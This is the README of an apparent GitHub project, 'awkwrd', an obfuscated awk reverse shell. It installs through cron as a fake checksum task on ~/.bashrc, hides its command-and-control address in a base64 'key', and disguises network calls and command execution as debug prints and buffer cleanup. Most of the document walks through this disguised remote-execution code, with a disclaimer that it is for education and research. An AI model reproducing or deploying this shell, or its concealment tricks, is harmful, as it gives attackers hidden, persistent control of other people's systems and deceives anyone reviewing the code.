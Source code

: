 # awkwrd

An obfuscated awk reverse shell.

## Purpose

The `checkrc.awk` command periodically calls out to a remote server and executes its commands. It is disguised as a recurring task to take the shasum of a file (e.g. to track when it is modified).

## Install
This command creates the main `checkrc.awk` file, an encryption key, and adds settings to cron.
```
./install.sh
```

## How it works

Before we dig into the code, we need some background on the encryption key that gets generated.

### The "encryption key"

After running `./install.sh`, a base64-encoded file should be saved to `$HOME/.checkrc/.key`. This looks like a stream of random bytes, but it's actually been carefully crafted to encode an awk-style TCP URI (see [awk Network Programming](https://www.gnu.org/software/gawk/manual/html_node/TCP_002fIP-Networking.html)).

Let's try decoding the file and only reading the even-numbered columns...
```bash
$ base64 -d $HOME/.checkrc/.key | awk '{print $2$4$6$8$10$12$14$16$18$20}'
/inet/tcp/0/localhost/8888
```

### Getting the Host URL
The first few lines of `checkrc.awk` simply read the key we see above, with some indirection around reading the even-numbered columns. As we know, we get a hostname out of this. Meanwhile, the reader believes we have loaded a private key into memory.
```awk
# load key into memory two bytes at a time
("base64 --decode $HOME/.checkrc/.key" | getline)
for (i=2;i<=NF;i+=2) key=key$i
```

### Sending the Request
The entire "HMAC generation" step exists mostly for indirection, except for the print statement. Those familiar with `awk` coprocesses and networking will note that this print statement actually opens a connection to our host above (`localhost:8888`) and sends the text `"starting with key "`.

Our command and control server would be set up to handle this input, while to the reader, this looks like a harmless debug statement.
```awk
# generate hmac of bash profile and save to logfile
print "starting with key " |& key
system(sprintf("openssl dgst -sha1 -hmac %s ~/.bashrc >>$HOME/shasums.txt", key))
```

### Remote Execution
This is the core of the script that reads data from the remote server and executes it. We hide it by talking about traditionally confusing concepts, but it's a difficult part to fully obfuscate (I'm open to suggestions).

```awk
# flush buffers and clean up file descriptors
close(key |&getline fd)
print "closed " |& fd
```

Let's break down what's going on here.
1. `key |& getline fd` reads a response from the host (`localhost:8888`), and populates the variable `fd` with the response data.
2. `close()` actually does close the connection, but evaluates step (1) first.
3. `print "closed " |& fd` runs the command received from the remote server. It does this by sending an arbitrary string to a process that runs the received command. This means that the received command should expect data on STDIN and handle it accordingly.

## Remote Server

This client assumes you have a remote server that can issue commands upon request. `server.awk` exists as a test server that sends remote tasks to be executed on the target host upon request. Creating a more configurable server is outside the scope of this project.

## Disclaimer

This project is for educational and research purposes only. The author is not responsible for individuals who misuse these materials for illegal purposes.
